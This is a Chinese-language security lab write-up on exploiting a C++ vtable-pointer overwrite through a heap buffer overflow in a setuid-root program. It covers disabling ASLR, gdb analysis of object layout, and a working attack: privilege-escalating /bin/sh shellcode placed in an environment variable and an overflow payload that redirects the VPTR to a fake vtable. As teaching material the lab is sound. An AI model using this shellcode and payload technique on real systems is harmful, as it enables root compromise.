










# Vtable

## 实验原理

 参考文章：http://www.phrack.org/issues.html?issue=56&id=8。

> C++中，当类 中声明虚函数（virtual 关键字）时，编译器会在类中生成一个虚函数表（VTABLE）， 虚函数表是一个存储该类的所有成员函数指针的数据结构，虚函数也会被编译器 放入虚函数表中。
>
> 存在虚函数时，每个对象都有一个虚指针（VPTR），它指向 VTABLE，在实现多态的过程中，父类和派生类都有 VPTR 指针。 
>
> 文章中用的编译器是 gcc，该编译器把 VPTR 放在类的最后面，但这个实验 用的是 g++编译器，它把 VPTR 放在类的开头。这并不影响我们的实验，因为 vtable.cpp 中实例化了两个对象，我们可以利用第一个对象的缓冲区溢出，将第二个对象的 VPTR 覆盖，使它指向我们自己设计的 vtable。

本文作者：[对酒当歌](https://blog.csdn.net/youyouwoxi)

## 实验步骤

### 准备工作

#### 首先关闭 ASLR

```bash
sudo sysctl -w kernel.randomize_va_space=0
```

##### 编译赋权

```bash
g++ -z execstack -o vtable vtable.cpp
sudo chown root:root vtable
sudo chmod 4755 vtable
```



### gdb调试

gdb 调试 vtable，反汇编 main 函数：

```bash
gdb vtable

disas main
```



可以看到，exit 函数下面调用了两次`_Znwj@plt` 函数以及两次`_ZN6NumberC2Ei `函数，而且`_Znwj@plt` 函数之前有个指令 `movl $0x6c,(%esp)`，`0x6c` 即 `108`,`108 `就是 100 个字节的 annotation 数组+4 个字节的 int 类型变量 number+4 个字节的 VPTR 指针，所以可以猜测，`_Znwj@plt` 就是是 new 函数，为两个对象在堆开辟 空间。两个`_ZN6NumberC2Ei `函数之前分别有 `movl \$0x5,0x4(%esp)`和 `movl \$0x6,0x4(%esp)`两条指令，可以猜测到，`_ZN6NumberC2Ei` 就是类的构造方法 `Number(int x)`，`$0x5 `和`$0x6 `分别是两个构造方法的参数。

为了验证猜想，可以 在`_ZN6NumberC2Ei `函数内设置一个断点，当运行到断点时，从 gdb 给出的信息 可以知道这个确实是构造方法。

```bash
disas _ZN6NumberC2Ei

b*0x0804872c

r AAAA
```



再分析汇编代码可知，new 函数返回后，它将对象的首地址存放到 eax。



#### 重开

重新开始gdb调试在两个 new 函数返回之后设置断点，

```bash
gdb vtable

b*0x0804863c

b*0x0804865e
```



查看 eax 寄存器的内容，就可以知道每个对象的首地址并用四个 a 标记数组前四个字节：

```bash
r AAAA

info reg eax

c

info reg eax
```


这两个对象的首地址分别是 `0x804b008 `和 `0x804b078`，它们也是 VPTR 的地址。 

在`_ZN6Number13setAnnotationEPc `函数后面设置断点，这个函数显然就是类的成员方法 `void setAnnotation(char *a)`：



运行到`0x0804869c`断点处，从第一个对象的首地址 0x804b008 开始，查看其内存内容：

```bash
b*0x0804869c

c
```



可以看到我们用作标记的四个 a，两个对象的 VPTR 指向同一个 vtable，因为他 们是都实例化于同一个类，还看到了构造方法的参数。我们的思路是将第二个对 象的 VPTR 覆盖成我们自己设置的 vtable，这个 vtable 就可以用 annotation 数组 来实现。计算得到两个 VPTR 相距 $4\times(6\times4+3)=108$ 字节：

```
x/100xw 0x804b008
```



### 开始攻击

将 shellcode 送进环境变量

```bash
export EGG=$(python -c "print '\x90'*1000 + '\x6a\x17\x58\x31\xdb\xcd\x80\x6a\x0b\x58\x99\x52\x68//sh\x68/bin\x89\xe3\x52\x53\x89\xe1\xcd\x80'")
```

并使用如下程序打印环境变量的地址：

```c
#include <stdio.h>
#include <stdlib.h>
int main(void)
{
    printf("EGG address: %p ", getenv("EGG"));
}
```

注意编译出的文件长度应与vtable一致

```
gcc -o attack attack.c
./attack
```



得到shellcode地址`0xbffff296`

```bash
vtable $(python -c "print '\x96\xf2\xff\xbf'*27+'\x0c\xb0\x04\x08'")
```

108/4=27，0x804b00c 就是我们自己设计的 vtable 的首地址（也就是 annotation 数组首地址）



攻击成功！